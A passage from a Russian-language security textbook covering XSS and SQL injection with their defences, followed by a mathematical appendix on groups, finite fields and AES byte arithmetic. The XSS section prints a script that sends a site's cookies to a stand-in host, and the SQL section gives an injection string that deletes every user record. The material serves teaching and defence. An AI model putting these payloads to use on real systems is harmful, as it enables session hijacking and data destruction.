Переполнение буфера в динамической памяти, в случае хранения в ней адресов для вызова функций, может привести к подмене адресов и исполнению другого кода.

В описанных DoS-атаках NX-бит не защищает систему.


\section{Межсайтовый скриптинг}\index{атака!XSS}
\selectlanguage{russian}

Другой вид распространённых программных уязвимостей состоит в некорректной обработке данных, введённых пользователем. Типичные примеры: отсутствующее или неправильное экранирование специальных символов и полей (спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введённых данных на допустимые значения (SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (\langen{Cross-Site Scripting, XSS}) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

Скрипт может получить доступ к cookie-файлам данного сайта, например с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и~т.\,д., а затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведём пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего исполняемый браузером код.

%Когда браузер первый раз обращается к сайту, веб-приложение может выслать вместе с HTML страницей cookie-файл, хранящий текстовую строку последовательностей

Пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, размещённое пользователем, содержит скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он сможет заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.
%Браузер самостоятельно не может отослать данные на другой сайт, отличный от текущего, поэтому передаваемая информация содержится в гиперссылках.

%(например, JavaScript код), либо программным обеспечением, генерирующим HTML-страницу для выдачи клиенту $B$ (например, PHP код). Цель XSS атаки -- либо выполнение JavaScript кода браузером клиента, либо выполнение скриптового кода на веб-сервере при запросе клиента к нему.

%Простой пример -- веб-форум. Пользователи вводят в формы текстовые сообщения, которые запоминаются в БД и показываются другим пользователям. Страница форума генерируется каждый раз заново при запросе пользователей информационной системой. Генерирование часто происходит из шаблона страницы, который содержит и базовый статический HTML код страницы, и исполняемый код скрипта для вставки динамического содержания на основе запроса к базе данных. Как правило, злоумышленник пользуется во время генерирования страницы некорректным экранированием текста, введённого им в формах ввода текста вебстраницы, кавычек, слэшей. То есть, текстовые значения полей, которые сохраняются в базе данных веб-сайта и отображаются другим пользователям, содержат исполняемый код злоумышленника.

На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введённого пользователем текста: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и~др., а также в обработке кодировок символов.


\section[SQL-инъекции с исполнением кода веб-сервером]{SQL-инъекции с исполнением кода \protect\\ базой данных интернет-сервиса}
\selectlanguage{russian}

Второй классической уязвимостью веб-приложений являются SQL-инъекции, когда пользователь имеет возможность поменять смысл запроса к базе данных веб-сервера. Запрос делается в виде текстовой строки на скриптовом языке SQL. Например, выражение
\begin{verbatim}
s = "SELECT * FROM Users WHERE Name = '" + username + "';"
\end{verbatim}
предназначено для получения информации о пользователе \texttt{username}. Однако если пользователь вместо имени введёт строку вида
\begin{center} \begin{verbatim}
john';  DELETE * FROM Users;  SELECT * FROM Users WHERE
  Name = 'john,
\end{verbatim} \end{center}
то выражение превратится в три SQL-операции:
%{\color{red} Проверить в каких системах будет работать. В JDBC PrepareStatement требует одно выражение, а ExecutableStatement использовать нельзя, так как он не возвращает значения.}
\begin{verbatim}
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
– удаление всех пользователей
DELETE FROM Users;
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
\end{verbatim}
При выполнении этого SQL-запроса к базе данных все записи пользователей будут удалены.

Уязвимости в SQL-выражениях являются частным случаем уязвимостей, связанных с использованием сложных систем с разными языками управления данными и, следовательно, с разными системами экранирования специальных символов и контроля над типом данных. Когда веб-сервер принимает от клиента данные, закодированные обычно с помощью <<application/x-www-form-urlencoded>>~\cite{html4:1999}, специальные символы (пробелы, неалфавитные символы и ~т.~д.) корректно экранируются браузером и восстанавливаются непосредственно веб-сервером или стандартными программными библиотеками. Аналогично, когда SQL-сервер передаёт или принимает данные от клиентской библиотеки, внутренним протоколом общения с SQL-сервером происходит кодировка текста, который является частью пользовательских данных. Однако на стыке контекстов -- в тот момент, когда программа, выполняющаяся на веб-сервере, уже приняла данные от пользователя по HTTP-протоколу\index{протокол!HTTP} и собирается передать их SQL-серверу в качестве составной части SQL-команды -- перед программистом стоит сложная задача учёта, в худшем случае, трёх контекстов и кодировок: входного контекста протокола общения с клиентом (HTTP), контекста языка программирования (с соответствующим оформлением и экранированием специальных символов в текстовых константах) и контекста языка управления данными SQL-сервера.

Ситуация усложняется тем, что программист может являться специалистом в языке программирования, но может быть не знаком с особенностями языка SQL или, что чаще, конкретным диалектом языка SQL, используемым СУБД.

Метод защиты заключается в \emph{разделении} кода и данных. Для защиты от приведённых атак на базу данных следует использовать параметрические запросы к базе данных с \emph{фиксированным} SQL-выражением. Например, в JDBC~\cite{jdbc:2006}:
\begin{verbatim}
PreparedStatement p = conn.prepareStatement(
    "SELECT * FROM Users WHERE Name=?");
p.setString(1, username);.
\end{verbatim}

Таким образом, задача корректного оформления текстовых данных для передачи на SQL-сервер перекладывается на драйвер общения с СУБД, в котором эта задача обычно решена корректно авторами драйвера, хорошо знающими особенности протокола и языка управления данными сервера.


%\chapter{Послесловие}
%Это должно быть что-то в виде заключения, объяснения, почему именно эти темы выбраны, насколько актуален материал с теоретической и практической точки зрения.


\appendix
\renewcommand{\thechapter}{\Asbuk{chapter}} % использование русских букв для нумерации приложений

\chapter{Математическое приложение}\label{chap:discrete-math}

\section{Общие определения}

Выражением $\mod n$ обозначается вычисление остатка от деления произвольного целого числа на целое число $n$. В полиномиальной арифметике эта операция означает вычисление остатка от деления многочленов.
%далее будем обозначать целые числа или операции с целыми числами, взятыми \textbf{по модулю}\index{модуль} целого числа $n$ (остаток от целочисленного деления). Примеры выражений:
    \[ a\mod n, \]
    \[ (a + b) c\mod n. \]
Равенство
    \[ a = b \mod n \]
означает, что выражения $a$ и $b$ равны (говорят также <<сравнимы>>, <<эквивалентны>>) по модулю $n$.

Множество
    \[ \{ 0, 1, 2, 3, \dots, n-1 \mod n\} \]
состоит из $n$ элементов, где каждый элемент $i$ представляет все целые числа, сравнимые с $i$ по модулю $n$.

Наибольший общий делитель (НОД) двух чисел $a,b$ обозначается $\gcd(a,b)$ (greatest common divisor).

Два числа $a,b$ называются взаимно простыми, если они не имеют общих делителей, кроме 1, то есть $\gcd(a,b) = 1$.

Выражение $a \mid b$ означает, что $a$ делит $b$.

\subsection{russian}{Парадокс дней рождений}

Найдем вероятность $P(n)$ того, что в группе из $n$ человек хотя бы двое имеют день рождения в один день года. Кроме того, найдем минимальный размер группы, в которой дни рождения совпадают хотя бы у двоих с вероятностью не менее $\frac{1}{2}$\index{парадокс дней рождений}.

Вероятность того, что $n$ человек ($n < 365$) не имеют общего дня рождения, есть
\[
    \bar{P}(n) = 1 \cdot \left( 1 - \frac{1}{365} \right) \cdot \left(1 - \frac{2}{365} \right)  \dots  \left( 1 - \frac{n-1}{365} \right) = \prod\limits_{i=0}^{n-1} \left( 1 - \frac{i}{365} \right).
\]
Аппроксимируя $1-x \leq e^{-x}$, находим
    \[ \bar{P}(n) \approx \prod\limits_{i=0}^{n-1} e^{-\frac{i}{365}} = e^{-\frac{n(n-1)}{2} \cdot \frac{1}{365}} \approx e^{-\frac{n^2}{2} \cdot \frac{1}{365}}. \]
Вероятность того, что хотя бы 2 человека из $n$ имеют общий день рождения, есть
    \[ P(n) = 1 - \bar{P}(n) \approx 1 -  e^{-\frac{n^2}{2} \cdot \frac{1}{365}}. \]

Найдем такое число $n_{1/2}$, чтобы выполнялось условие $P(n_{1/2}) \geq \frac{1}{2}$. Подставляя это значение в формулу для вероятности,  получим $\frac{1}{2} \geq e^{-\frac{n_{1/2}^2}{2} \cdot \frac{1}{365}}$. Следовательно,
\[
    n_{1/2} \geq \sqrt{2 \ln 2 \cdot 365} \geq 23.
\]

Парадокс дней рождений заключается в том, что вероятность совпадения дней рождения хотя бы у одной пары в группе, много меньше вероятности совпадения дней рождения двух людей не в группе.

%Средний размер $\bar{n}$ группы, в которой есть хотя бы 2 человека с одним днем рождения, асимптотически $\bar{n} \approx 1 + \sqrt{\frac{\pi}{2}365}$.

Обобщим эту задачу на выборку из $n$ случайных элементов с повторами из множества  $2^k$ различных элементов и получим формулы для вероятности и числа $n$:
\[
    P(n) \approx 1 -  e^{-\frac{n^2}{2} 2^{-k}}, ~~
    n_{1/2} \approx \sqrt{2 \ln 2} \cdot 2^{k/2}, ~~
%    \bar{n} \approx \sqrt{\frac{\pi}{2}} \cdot 2^{k/2}.
\]


\section{Группы}\label{section-groups}
\selectlanguage{russian}

\subsection{Свойства групп}

\textbf{Группой}\index{группа} называется множество $\Gr$, на котором задана бинарная операция <<$\cdot$>>, удовлетворяющая следующим аксиомам:
\begin{enumerate}
    \item замкнутость:
        \[ \forall a,b \in \Gr: a \cdot b = c \in \Gr; \]
    \item ассоциативность:
        \[ \forall a,b,c \in \Gr: (a \cdot b) \cdot c = a \cdot (b \cdot c); \]
    \item существование единичного элемента:
        \[ \exists ~ e \in \Gr: e\cdot a = a \cdot e = a; \]
    \item существование обратного элемента:
        \[ \forall a \in \Gr ~ \exists ~ b \in \Gr: a \cdot b = b \cdot a = e. \]
\end{enumerate}
Если
    \[ \forall a,b \in \Gr: a \cdot b = b \cdot a, \]
то группа коммутативная.

Если операция в группе задана как умножение <<$\cdot$>>, то группа называется \textbf{мультипликативной}, $e = 1$, обратный элемент -- $a^{-1}$, возведение в степень $k$ -- $a^k$.

Если операция задана как сложение <<$+$>>, то группа называется \textbf{аддитивной}, $e = 0$, обратный элемент $-a$, сложение $k$ раз -- $ka$.

Подмножество группы, удовлетворяющее аксиомам группы, называется \textbf{подгруппой}\index{подгруппа}.

\textbf{Порядком} $|\Gr|$ \textbf{группы}\index{порядок группы} $\Gr$ называется число элементов в группе. Пусть группа мультипликативная. Для любого элемента $a \in \Gr$ выполняется $a^{|\Gr|} = 1$.

\textbf{Порядком элемента} $a$ называется минимальное натуральное число
    \[ \ord(a): a^{\ord(a)} = 1. \]
 Порядок элемента делит порядок группы:
    \[ \ord(a) \mid \left|\Gr\right|. \]


\subsection{Циклические группы}

\textbf{Генератором} $g \in \Gr$ называется элемент, \emph{порождающий} всю группу\index{генератор группы}:
    \[ \Gr = \{g, g^2, g^3, \ldots, g^{|\Gr|} = 1\}. \]

Группа, в которой существует генератор, называется \textbf{циклической}\index{группа!циклическая}.

Если конечная группа не циклическая, то в ней существуют циклические подгруппы, порождённые всеми элементами. Любой элемент $a$ группы порождает либо циклическую \emph{подгруппу}
    \[ \{ a, a^2, a^3, \dots, a^{\ord(a)} = 1 \} \]
порядка $\ord(a)$, если порядок элемента $\ord(a) < |\Gr|$, либо \emph{всю} группу
    \[ \Gr = \{ a, a^2, a^3, \dots, a^{|\Gr|} = 1 \}, \]
если порядок элемента равен порядку группы $\ord(a) = |\Gr|$. Порядок любой подгруппы, как и порядок элемента, делит порядок всей группы.

Представим циклическую группу через генератор $g$ как
    \[ \Gr = \{g, g^2, \ldots, g^{|\Gr|} = 1\} \]
и каждый элемент $g^i$ возведём в степени $1, 2, \ldots, |\Gr|$. Тогда
\begin{itemize}
    \item элементы $g^i$, для которых число $i$ взаимно просто с $|\Gr|$, породят снова всю группу
            \[ \Gr = \{ g^i, g^{2i}, g^{3i}, \dots, g^{|\Gr| i} = 1 \}, \]
        так как степени $\{i, 2i, 3i, \dots, |\Gr| i \}$ по модулю $|\Gr|$ образуют перестановку чисел $\{1, 2, 3, \dots, |\Gr|\}$; следовательно $g^i$ -- тоже генератор, число таких чисел $i$ по определению функции Эйлера $\varphi(|\Gr|)$ ($\varphi(n)$ -- количество взаимно простых с $n$ целых чисел в диапазоне $[1,n-1]$);
    \item элементы $g^i$, для которых $i$ имеют общие делители
            \[ d_i = \gcd(i, |\Gr|) \neq 1 \]
        c $|\Gr|$, породят подгруппы
            \[ \{ g^i, g^{2i}, g^{3i}, \dots, g^{\frac{i}{d_i} |\Gr|} = 1\}, \]
        так как степень последнего элемента кратна $|\Gr|$; следовательно такие $g^i$ образуют циклические подгруппы порядка $d_i$.
\end{itemize}

Из предыдущего утверждения следует, что число генераторов в циклической группе равно
    \[ \varphi(|\Gr|). \]

Для проверки, является ли элемент генератором всей группы, требуется знать разложение порядка группы $|\Gr|$ на множители. Далее элемент возводится в степени, равные всем делителям порядка группы, и сравнивается с единичным элементом $e$. Если ни одна из степеней не равна $e$, то этот элемент является примитивным элементом или генератором группы. В противном случае элемент будет генератором какой-либо подгруппы.

Задача разложения числа на множители является трудной для вычисления. На сложности её решения, например, основана криптосистема RSA\index{криптосистема!RSA}. Поэтому при создании больших групп желательно заранее знать разложение порядка группы на множители для возможности выбора генератора.


\subsection{Группа $\Z_p^*$}\label{section-group-multiplicative}

\textbf{Группой $\Z_p^*$} называется группа\index{группа!$\Z_p^*$}
    \[ \Z_p^* = \{1, 2, \dots, p-1 \mod p\}, \]
где $p$ -- простое\index{число!простое} число, операция в группе -- умножение $\ast$ по $\operatorname{mod} p$.

Группа $\Z_p^*$ -- \textbf{циклическая}, порядок
    \[ |\Z_p^*| = \varphi(p) = p - 1. \]
Число генераторов в группе --
    \[ \varphi(|\Z_p^*|) = \varphi(p-1). \]

Из того, что $\Z_p^*$ -- группа, для простого\index{число!простое} $p$ и любого $a \in [2, p-1] \mod p$ следует \textbf{малая теорема Ферма}\index{теорема!Ферма малая}:
    \[ a^{p-1} = 1 \mod p. \]
На малой теореме Ферма основаны многие тесты проверки числа на простоту.

\example 1
Рассмотрим группу $\Z_{19}^*$. Порядок группы -- 18. Делители: 2, 3, 6, 9. Является ли 12 генератором?
\[ \begin{array}{l}
    12^2 = -8 \mod 19, \\
    12^3 = -1 \mod 19, \\
    12^6 = 1 \mod 19, \\
\end{array} \]
12 -- генератор подгруппы 6 порядка. Является ли 13 генератором?
\[ \begin{array}{l}
    13^2 = -2 \mod 19, \\
    13^3 = -7 \mod 19, \\
    13^6 = -8 \mod 19, \\
    13^9 = -1 \mod 19, \\
    13^{18} = 1 \mod 19, \\
\end{array} \]
13 -- генератор всей группы.
\exampleend

\example 2
В таблице~\ref{tab:Zp-sample} приведён пример группы $\Z_{13}^*$. Число генераторов -- $\varphi(12) = 4$. Подгруппы --
    \[ \Gr^{(1)}, \Gr^{(2)}, \Gr^{(3)}, \Gr^{(4)}, \Gr^{(6)}, \]
верхний индекс обозначает порядок подгруппы.

\begin{table}[!ht]
    \centering
    \caption {Генераторы и циклические подгруппы группы $\Gr=\Z_{13}^*$\label{tab:Zp-sample}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c|p{0.66\textwidth}|c|}
        \hline
        Элемент & Порождаемая группа или подгруппа & Порядок \\
        \hline
         1 & $\Gr^{(1)} = \{  1 \}$ & 1 \\
         2 & $\Gr = \{ 2, 4, 8, 3, 6, 12, 11, 9, 5, 10, 7, 1 \}$ & 12, ген. \\
         3 & $\Gr^{(3)} = \{ 3, 9, 1 \}$ & 3 \\
         4 & $\Gr^{(6)} = \{ 4, 3, 12, 9, 10, 1 \}$ & 6 \\
         5 & $\Gr^{(4)} = \{ 5, 12, 8, 1 \}$ & 4 \\
         6 & $\Gr = \{ 6, 10, 8, 9, 2, 12, 7, 3, 5, 4, 11, 1 \}$ & 12, ген. \\
         7 & $\Gr = \{ 7, 10, 5, 9, 11, 12, 6, 3, 8, 4, 2, 1 \}$ & 12, ген. \\
         8 & $\Gr^{(4)} = \{ 8, 12, 5, 1 \}$ & 4 \\
         9 & $\Gr^{(3)} = \{ 9, 3, 1 \}$ & 3 \\
        10 & $\Gr^{(6)} = \{ 10, 9, 12, 3, 4, 1 \}$ & 6 \\
        11 & $\Gr = \{ 11, 4, 5, 3, 7, 12, 2, 9, 8, 10, 6, 1 \}$ & 12, ген. \\
        12 & $\Gr^{(2)} = \{ 12, 1 \}$ & 2 \\
        \hline
    \end{tabular} }
\end{table}
\exampleend


\subsection{Группа $\Z_n^*$}

\textbf{Функция Эйлера}\index{функция!Эйлера} $\varphi(n)$ определяется как количество чисел, взаимно простых с $n$ в интервале от 1 до $n-1$.

Если $n=p$ -- простое\index{число!простое} число, то
    \[ \varphi(p) = p - 1, \]
    \[ \varphi(p^k) = p^k - p^{k-1} = p^{k-1}(p - 1). \]
Если $n$ -- составное число и
    \[ n = \prod \limits_{i} p_i^{k_i} \]
разложено на простые множители $p_i$, то
    \[ \varphi(n) = \prod \limits_{i} \varphi(p_i^{k_i}) =  \prod \limits_{i} p_i^{k_i - 1}(p_i - 1). \]

\textbf{Группой $\Z_n^*$} называется группа\index{группа!$\Z_n^*$}
    \[ \Z_n^* = \left\{ \forall a \in \left\{ 1, 2, \dots, n-1 \mod n \right\} : \gcd(a,n) = 1 \right\} \]
с операцией умножения $\ast$ по $\operatorname{mod} n$.

Порядок группы --
    \[ |\Z_n^*| = \varphi(n). \]
Группа $\Z_p^*$ -- частный случай группы $\Z_n^*$.

Если $n$ \emph{составное}\index{число!составное} (не простое) число, то группа $\Z_n^*$ \textbf{нециклическая}.

Из того, что $\Z_n^*$ -- группа, для любых $a \neq 0, n > 1: \gcd(a,n) = 1$ следует \textbf{теорема Эйлера}\index{теорема!Эйлера}:
    \[ a^{\varphi(n)} = 1 \mod n. \]

При возведении в степень, если $\gcd(a,n) = 1$, выполняется
    \[ a^b = a^{b \mod \varphi(n)} \mod n. \]

\example
В таблице~\ref{tab:Zn-sample} приведена нециклическая группа $\Z_{21}^*$ и её циклические подгруппы
    \[ \Gr^{(1)}, \Gr_1^{(2)}, \Gr_2^{(2)}, \Gr_3^{(2)}, \Gr_1^{(3)}, \Gr_1^{(6)}, \Gr_2^{(6)}, \Gr_3^{(6)}, \]
верхний индекс обозначает порядок подгруппы, нижний индекс нумерует различные подгруппы одного порядка.

\begin{table}[!ht]
    \centering
    \caption{Циклические подгруппы нециклической группы $\Z_{21}^*$\label{tab:Zn-sample}}
    \begin{tabular}{|c|l|c|}
        \hline
        Элемент & Порождаемая циклическая подгруппа & Порядок \\
        \hline
        1  & $\Gr^{(1)} = \{ 1 \}$ & 1 \\
        2  & $\Gr_1^{(6)} = \{ 2, 4, 8, 16, 11, 1 \}$ & 6 \\
        4  & $\Gr_1^{(3)} = \{ 4, 16, 1 \}$ & 3 \\
        5  & $\Gr_2^{(6)} = \{ 5, 4, 20, 16, 17, 1 \}$ & 6 \\
        8  & $\Gr_1^{(2)} = \{ 8, 1 \}$ & 2 \\
        10 & $\Gr_3^{(6)} = \{ 10, 16, 13, 4, 19, 1 \}$ & 6 \\
        11 & $\Gr_1^{(6)} = \{ 11, 16, 8, 4, 2, 1 \}$ & 6 \\
        13 & $\Gr_2^{(2)} = \{ 13, 1 \}$ & 2 \\
        16 & $\Gr_1^{(3)} = \{ 16, 4, 1 \}$ & 3 \\
        17 & $\Gr_2^{(6)} = \{ 17, 16, 20, 4, 5, 1 \}$ & 6 \\
        19 & $\Gr_3^{(6)} = \{ 19, 4, 13, 16, 10, 1 \}$ & 6 \\
        20 & $\Gr_3^{(2)} = \{ 20, 1 \}$ & 2 \\
        \hline
    \end{tabular}
\end{table}
\exampleend

\subsection{Конечные поля}\label{section-fields}

\textbf{Полем} называется множество $\F$, для которого\index{поле}:
\begin{itemize}
    \item заданы две бинарные операции, условно называемые операциями умножения <<$\cdot$>> и сложения <<$+$>>;
    \item выполняются аксиомы группы для операции <<сложения>>: \\
        1. замкнутость:
		\[\forall a, b \in \F: a + b \in \F;\]
        2. ассоциативность:
		\[\forall a, b, c \in \F: (a+b)+c = a+(b+c);\]
        3. существование нейтрального элемента по сложению (часто обозначаемого как <<0>>):
		\[\exists 0 \in \F: \forall a \in \F: a + 0 = 0 + a = a; \]
        4. существование обратного элемента:
		\[\forall a \in \F: \exists -a: a + (-a) = 0; \]
    \item выполняются аксиомы группы для операции <<умножения>>, за одним исключением: \\
        1. замкнутость:
		\[\forall a, b \in \F: a \cdot b \in \F; \]
        2. ассоциативность:
		\[\forall a, b, c \in \F: (a \cdot b) \cdot c = a \cdot (b \cdot c);\]
        3. существование нейтрального элемента по умножению (часто обозначаемого как <<1>>):
		\[\exists 1 \in \F: \forall a \in \F: a \cdot 1 = 1 \cdot a = a;\]
        4. существование обратного элемента по умножению для всех элементов множества, кроме нейтрального элемента по сложению:
		\[\forall a \in {\F \setminus \{0\}}: \exists a^{-1}: a \cdot a^{-1} = a^{-1} \cdot a = 1;\]
    \item операции <<сложения>> и <<умножения>> коммутативны: \\
        \[ \begin{array}{l}
            \forall a, b \in \F: a + b = b + a, \\
            \forall a, b \in \F: a \cdot b = b \cdot a; \\
        \end{array} \]
    \item выполняется свойство дистрибутивности:
        \[ \forall a, b, c \in \F: a \cdot (b + c) = (a \cdot b) + (a \cdot c). \]
\end{itemize}

Примеры \emph{бесконечных} полей (с бесконечным числом элементов): поле рациональных чисел $\group{Q}$, поле вещественных чисел $\group{R}$, поле комплексных чисел $\group{C}$ с обычными операциями сложения и умножения.

В криптографии рассматриваются \emph{конечные} поля (с конечным числом элементов), называемые также \textbf{полями Галуа}.

Число элементов в любом конечном поле равно $p^n$, где $p$ -- простое\index{число!простое} число и $n$ -- натуральное число. Обозначения поля Галуа: $\GF{p}, \GF{p^n}, \F_p, \F_{p^n}$ (аббревиатура от Galois field). Все поля Галуа $\GF{p^n}$ изоморфны друг другу (существует взаимно однозначное отображение между полями, сохраняющее действие всех операций). Другими словами, существует только одно поле Галуа $\GF{p^n}$ для фиксированных $p, n$.

Приведём примеры конечных полей.

Двоичное поле $\GF{2}$ состоит из двух элементов. Однако задать его можно разными способами:
\begin{itemize}
	\item Как множество из двух чисел <<0>> и <<1>> с определёнными на нём операциями <<сложение>> и <<умножение>> как сложение и умножение чисел по модулю 2. Нейтральным элементом по сложению будет <<0>>, по умножению -- <<1>>:
\[\begin{array}{ll}
	0 + 0 = 0,	& 	0 \cdot 0 = 0, \\
	0 + 1 = 1,	& 	0 \cdot 1 = 0, \\
	1 + 0 = 1,	& 	1 \cdot 0 = 0, \\
	1 + 1 = 0,	& 	1 \cdot 1 = 1. \\
\end{array}\]
	\item Как множество из двух логических объектов <<ЛОЖЬ>> ($F$) и <<ИСТИНА>> ($T$) с определёнными на нём операциями <<сложение>> и <<умножение>> как булевые операции <<исключающее или>> и <<и>> соответственно. Нейтральным элементом по сложению будет <<ЛОЖЬ>>, по умножению -- <<ИСТИНА>>:
\[\begin{array}{ll}
	F + F = F,	& 	F \cdot F = F, \\
	F + T = T,	& 	F \cdot T = F, \\
	T + F = T,	& 	T \cdot F = F, \\
	T + T = F,	& 	T \cdot T = T. \\
\end{array}\]
	\item Как множество из двух логических объектов <<ЛОЖЬ>> ($F$) и <<ИСТИНА>> ($T$) с определёнными на нём операциями <<сложение>> и <<умножение>> как булевые операции <<эквивалентность>> и <<или>> соответственно. Нейтральным элементом по сложению будет <<ИСТИНА>>, по умножению -- <<ЛОЖЬ>>:
\[\begin{array}{ll}
	F + F = T,	& 	F \cdot F = F, \\
	F + T = F,	& 	F \cdot T = T, \\
	T + F = F,	& 	T \cdot F = T, \\
	T + T = T,	& 	T \cdot T = T. \\
\end{array}\]
	\item Как множество из двух чисел <<0>> и <<1>> с определёнными на нём операциями <<сложение>> и <<умножение>>, заданными в табличном представлении. Нейтральным элементом по сложению будет <<1>>, по умножению -- <<0>>:
\[\begin{array}{ll}
	0 + 0 = 1,	& 	0 \cdot 0 = 0, \\
	0 + 1 = 0,	& 	0 \cdot 1 = 1, \\
	1 + 0 = 0,	& 	1 \cdot 0 = 1, \\
	1 + 1 = 1,	& 	1 \cdot 1 = 1. \\
\end{array}\]
\end{itemize}

Все перечисленные выше варианты множеств изоморфны друг другу. Поэтому в дальнейшем под конечным полем $\GF{p}$, где $p$ -- простое\index{число!простое} число, будем понимать поле, заданное как множество целых чисел от $0$ до $p-1$ включительно, на котором операции <<сложение>> и <<умножение>> заданы как операции сложения и умножения чисел по модулю числа $p$. Например, поле $\GF{7}$ будем считать состоящим из 7-ми чисел $\{0, 1, 2, 3, 4, 5, 6\}$ с операциями умножения $(\cdot \mod 7)$ и сложения $(+ \mod 7)$ по модулю.

Конечное поле $\GF{p^n}, n > 1$ строится \textbf{расширением} \emph{базового} поля $\GF{p}$. Элемент поля представляется как многочлен степени $n-1$ (или меньше) с коэффициентами из базового поля $\GF{p}$:
    \[ \alpha = \sum\limits_{i=0}^{n-1} a_i x^i, ~ a_i \in \GF{p}. \]

Операция сложения элементов в таком поле традиционно задаётся как операция сложения коэффициентов при одинаковых степенях в базовом поле $\GF{p}$. Операция умножения -- как умножение многочленов со сложением и умножением коэффициентов в базовом поле $\GF{p}$ и дальнейшим приведением результата по модулю некоторого заданного (для поля) неприводимого\footnote{Многочлен называется \textbf{неприводимым}\index{многочлен!неприводимый}, если он не раскладывается на множители, и \textbf{приводимым}\index{многочлен!приводимый}, если раскладывается.} многочлена $m(x)$. Количество элементов в поле равно $p^n$.

Многочлен $g(x)$ называется \textbf{примитивным элементом}\index{многочлен!примитивный} (генератором) поля, если его степени порождают все ненулевые элементы, то есть $\GF{p^n} \setminus \{0\}$, заданное неприводимым многочленом $m(x)$, за исключением нуля:
    \[ \GF{p^n} \setminus \{0\} = \{ g(x), g^2(x), g^3(x), \dots, g^{p^n-1}(x) = 1 \mod m(x) \}. \]

\example
В таблице~\ref{tab:irreducible-gf2} приведены примеры многочленов \emph{над полем} $\GF{2}$.
\begin{table}[!ht]
    \centering
    \caption{Пример многочленов над полем $\GF{2}$\label{tab:irreducible-gf2}}
    \begin{tabular}{|c|c|c|}
        \hline
        Многочлен & \parbox{2.5cm}{Упрощённая запись} & Разложение \\
        \hline
        $'1' x + '0'$ & $x$ & неприводимый \\
        $'1' x + '1'$ & $x+1$ & неприводимый \\
        $'1' x^2 + '0' x + '0'$ & $x^2$ & $x \cdot x$ \\
        $'1' x^2 + '0'x + '1'$ & $x^2 + 1$ & $(x+1) \cdot (x+1)$ \\
        $'1' x^2 + '1' x + '0'$ & $x^2 + x$ & $x \cdot (x+1)$ \\
        $'1' x^2 + '1' x + '1'$ & $x^2 + x + 1$ & неприводимый \\
        $'1' x^3 + '0' x^2 + '0' x + '1'$ & $x^3 + 1$ & $(x+1) \cdot (x^2+x+1)$ \\
        \hline
    \end{tabular}
\end{table}
\exampleend


\section{Конечные поля и операции в алгоритме AES}\index{шифр!AES|(}
\selectlanguage{russian}

В алгоритме блочного шифрования\index{шифр!блочный} AES преобразования над битами и байтами осуществляются специальными математическими операциями. Биты и байты понимаются как элементы поля.

\subsection{Операции с байтами в AES}

Чтобы определить операции сложения и умножения двух байтов, введём сначала представление байта в виде многочлена степени 7 или меньше. Байт
    \[ a =( a_7, a_6, a_5, a_4, a_3, a_2, a_1, a_0) \]
преобразуется в многочлен $a(x)$ с коэффициентами 0 или 1 по правилу
    \[ a(x) = a_{7}x^{7}+a_{6}x^{6}+a_{5}x^{5}+a_{4}x^{4}+a_{3}x^{3}+a_{2}x^{2}+a_{1}x+a_{0}. \]

Далее байт трактуется как элемент конечного поля $\GF{2^8}$, заданного неприводимым многочленом, например
    \[ m(x) = x^{8}+x^{4}+x^{3}+x +1. \]

Произведение многочленов $a(x)$ и $b(x)$ по модулю многочлена $m(x)$ записывают как
    \[ c(x) = a(x) b(x) \mod m(x). \]
Остаток $c(x)$ представляет собой многочлен степени 7 или меньше. Его коэффициенты $(c_{7}, c_{6}, c_{5}, c_{4}, c_{3}, c_{2}, c_{1}, c_{0})$ образуют байт $c$, который и называется произведением байтов $a$ и $b$.

Сложение байтов осуществляется как $\oplus$ (исключающее ИЛИ), что является операцией сложения многочленов в двоичном поле.

\emph{Единичным} элементом поля является байт $\mathrm{'00000001'}$, или $\mathrm{'01'}$ в шестнадцатеричной записи. \emph{Нулевым} элементом поля является байт $\mathrm{'00000000'}$, или $\mathrm{'00'}$ в шестнадцатеричной записи. Одним из \emph{примитивных} элементов поля является байт $\mathrm{'00000010'}$, или $\mathrm{'02'}$ в шестнадцатеричной записи. Байты часто записывают в шестнадцатеричной форме, но при математических преобразованиях они должны интерпретироваться как элементы поля $\GF{2^8}$.

Для каждого ненулевого байта $a$ существует обратный байт $b$ такой, что их произведение является единичным байтом:
    \[ a b = 1 \mod m(x). \]
Обратный байт обозначается $b = a^{-1}$.

